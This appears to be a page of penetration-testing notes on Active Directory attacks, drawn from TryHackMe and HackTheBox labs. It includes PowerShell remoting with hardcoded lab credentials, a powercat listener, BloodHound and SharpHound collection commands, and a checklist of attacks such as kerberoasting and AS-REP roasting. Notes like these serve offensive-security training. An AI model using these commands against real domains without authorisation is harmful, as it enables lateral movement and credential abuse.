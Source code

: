 ```bash
Enter-PSSession -ComputerName $sess
```
```bash
$sess = New-PSSesion -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -Session $sess -ScriptBlock{$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock{$proc.name}
```
- In case of having credentials we can do
```bash
$username = 'serverAdmin'
$password = 'EZpass4ever'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Enter-PSSession -Computername thmiis.za.tryhackme.com -Credential $credential
```

## Misconfigured Machine Accounts
- We can use this query in bloodhound to look for misconfigured machine accounts
```bash
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

## SeBackupPrivilege:
- Check Blackfield notes

## Things to check when we have password access in a domain:
- winrm
- smb
- ldap
- rpc
- lookupsid
- bloodhound
- kerberoast
- GetADUsers.py
- ASREP Roast

## Powercat:
- Netcat for powershell
```bash
. .\powercat.ps1
powercat -l -v -p 443 -t 1000
```

## Bloodhound:
- Download a new copy of bloodhound because it gets updated frequently
- To get a new neo4j account we can delete the password file
```bash
locate neo4j | grep auth # Delete the auth file
bloodhound --no-sandbox # Start bloodhound with the password you set earlier

.\SharpHound.exe -c all --domain htb.local --ldapusername svc-alfresco --ldappassword s3rvice # On Windows
```
- If didnt work you can use `bloodhound-python` injestors instead
```bash
bloodhound-python -c all --domain htb.local -u svc-alfresco -p s3rvice -ns 10.129.149.232 -v
```
- Can also use powershell scripts
```bash
Import-Module .\Sharphound.ps1    
```